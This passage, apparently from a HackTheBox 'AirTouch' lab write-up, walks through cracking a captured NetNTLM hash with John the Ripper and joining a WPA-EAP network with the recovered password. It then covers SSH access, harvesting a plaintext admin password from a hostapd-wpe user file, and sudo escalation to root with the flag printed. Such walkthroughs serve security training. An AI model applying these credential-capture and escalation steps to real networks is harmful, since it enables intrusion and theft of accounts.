         hashcat NETNTLM:               r4ulcl::::63b499bde97f04612d9d0d28c470e058cf3d1e5e12d5ef82:24e58291917a2e26


wlan3: CTRL-EVENT-EAP-FAILURE c8:8a:9a:6f:f9:d2
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.1X: authentication failed - EAP type: 0 (unknown)
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.1X: Supplicant used different EAP type: 25 (PEAP)
wlan3: STA c8:8a:9a:6f:f9:d2 IEEE 802.11: deauthenticated due to local deauth request
```

### Cracking the Hash using John the Ripper

We grabbed the `jtr` variant of the `NTLM Hash` and used `john the Ripper` to `crack` it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ cat hash
r4ulcl:$NETNTLM$03d0426937982a85$2751b355c2b8d1eae45f5c33a5cc597624a104048a148a69
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/AirTouch/files]
└─$ sudo john hash --wordlist=/usr/share/wordlists/rockyou.txt
[sudo] password for kali: 
Warning: detected hash type "netntlm", but the string is also recognized as "netntlm-naive"
Use the "--format=netntlm-naive" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (netntlm, NTLMv1 C/R [MD4 DES (ESS MD5) 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
laboratory       (r4ulcl)     
1g 0:00:00:00 DONE (2026-01-18 00:46) 11.11g/s 1030Kp/s 1030Kc/s 1030KC/s rafidah..ivan22
Use the "--show --format=netntlm" options to display all of the cracked passwords reliably
Session completed.
```

| Password   |
| ---------- |
| laboratory |

Now with the `Password` and the `Certificates` we were able to authenticate against the `SSID` of `AirToauch-Office`.

```shell
root@AirTouch-Consultant:~# cat AirTouch-Office.conf 
network={
    ssid="AirTouch-Office"
    scan_ssid=1
    key_mgmt=WPA-EAP
    eap=PEAP
    identity="AirTouch\r4ulcl"
    password="laboratory"
    phase2="auth=MSCHAPV2"
    ca_cert="/home/consultant/certs-backup/ca.crt"
}
```

```shell
root@AirTouch-Consultant:~# wpa_supplicant -D nl80211 -i wlan4 -c AirTouch-Office.conf 
Successfully initialized wpa_supplicant
rfkill: Cannot open RFKILL control device
rfkill: Cannot get wiphy information
wlan4: SME: Trying to authenticate with ac:8b:a9:f3:a1:13 (SSID='AirTouch-Office' freq=5220 MHz)
wlan4: Trying to associate with ac:8b:a9:f3:a1:13 (SSID='AirTouch-Office' freq=5220 MHz)
wlan4: Associated with ac:8b:a9:f3:a1:13
wlan4: CTRL-EVENT-SUBNET-STATUS-UPDATE status=0
wlan4: CTRL-EVENT-EAP-STARTED EAP authentication started
wlan4: CTRL-EVENT-EAP-PROPOSED-METHOD vendor=0 method=25
wlan4: CTRL-EVENT-EAP-METHOD EAP vendor 0 method 25 (PEAP) selected
wlan4: CTRL-EVENT-EAP-PEER-CERT depth=1 subject='/C=ES/ST=Madrid/L=Madrid/O=AirTouch/OU=Certificate Authority/CN=AirTouch CA/emailAddress=ca@AirTouch.htb' hash=222a7dd4d28c97c8e4730762fa9a102af05c7d56b35279b2f5ee4da7ddf918a8
wlan4: CTRL-EVENT-EAP-PEER-CERT depth=0 subject='/C=ES/L=Madrid/O=AirTouch/OU=Server/CN=AirTouch CA/emailAddress=server@AirTouch.htb' hash=ef39f3fff0883db7fc8a535c52f80509fc395e9889061e209102307b46995864
EAP-MSCHAPV2: Authentication succeeded
wlan4: CTRL-EVENT-EAP-SUCCESS EAP authentication completed successfully
wlan4: PMKSA-CACHE-ADDED ac:8b:a9:f3:a1:13 0
wlan4: WPA: Key negotiation completed with ac:8b:a9:f3:a1:13 [PTK=CCMP GTK=CCMP]
wlan4: CTRL-EVENT-CONNECTED - Connection to ac:8b:a9:f3:a1:13 completed [id=0 id_str=]
```

```shell
root@AirTouch-Consultant:/home/consultant# dhclient wlan4 -v
Internet Systems Consortium DHCP Client 4.4.1
Copyright 2004-2018 Internet Systems Consortium.
All rights reserved.
For info, please visit https://www.isc.org/software/dhcp/

Listening on LPF/wlan4/02:00:00:00:04:00
Sending on   LPF/wlan4/02:00:00:00:04:00
Sending on   Socket/fallback
DHCPREQUEST for 10.10.10.62 on wlan4 to 255.255.255.255 port 67 (xid=0x3d3ea488)
DHCPACK of 10.10.10.62 from 10.10.10.1 (xid=0x88a43e3d)
RTNETLINK answers: File exists
bound to 10.10.10.62 -- renewal in 376941 seconds.
```

And all what was left was to use the user `remote` to connect to `10.10.10.1` via `SSH`.

| Username | Password             |
| -------- | -------------------- |
| remote   | xGgWEwqUpfoOVsLeROeG |

```shell
root@AirTouch-Consultant:/home/consultant# ssh remote@10.10.10.1
The authenticity of host '10.10.10.1 (10.10.10.1)' can't be established.
ECDSA key fingerprint is SHA256:/lSCXr95A71FBCcQ9DT1xXMFeCAsLEnCUfSwu/3qPoE.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.1' (ECDSA) to the list of known hosts.
remote@10.10.10.1's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-216-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

remote@AirTouch-AP-MGT:~$
```

## Enumeration (remote on AirTouch-AP-MGT)

One more step was to perform to finally get `root`. We had to start once more looking for `Credentials` as a `Low-Privileged User`. While doing `Enumeration` once more we found another `user` on the system called `admin`.

```shell
remote@AirTouch-AP-MGT:~$ id
uid=1000(remote) gid=1000(remote) groups=1000(remote)
```

```shell
remote@AirTouch-AP-MGT:~$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
dnsmasq:x:105:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
remote:x:1000:1000::/home/remote:/bin/bash
admin:x:1001:1001::/home/admin:/bin/bash
```

Unfortunately for us `remote` was not allowed to use `sudo` in any way.

```shell
remote@AirTouch-AP-MGT:~$ sudo -l
[sudo] password for remote: 
Sorry, user remote may not run sudo on AirTouch-AP-MGT.
```

After a short time of digging through possible files, we found his `Password` within the `hostapd_wpe.eap_user` configuration file.

```shell
remote@AirTouch-AP-MGT:~$ cat /etc/hostapd/hostapd_wpe.eap_user
<--- CUT FOR BREVITY --->
"AirTouch\r4ulcl"                           MSCHAPV2            "laboratory" [2]
"admin"                                 MSCHAPV2                "xMJpzXt4D9ouMuL3JJsMriF7KZozm7" [2]
```

| Username | Password                       |
| -------- | ------------------------------ |
| admin    | xMJpzXt4D9ouMuL3JJsMriF7KZozm7 |

```shell
remote@AirTouch-AP-MGT:~$ su admin
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

admin@AirTouch-AP-MGT:/home/remote$
```

## Enumeration (admin on AirTouch-AP-MGT)

And once more the granted `Permissions` of `sudo` allowed us to drop into a shell as `root` and to grab the `root.txt`.

```shell
admin@AirTouch-AP-MGT:/home/remote$ sudo -l
Matching Defaults entries for admin on AirTouch-AP-MGT:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on AirTouch-AP-MGT:
    (ALL) ALL
    (ALL) NOPASSWD: ALL
```

```shell
admin@AirTouch-AP-MGT:/home/remote$ sudo su
root@AirTouch-AP-MGT:/home/remote#
```

## root.txt

```shell
root@AirTouch-AP-MGT:~# cat root.txt 
2594c25b808cd54007ed343f69da11ee
```
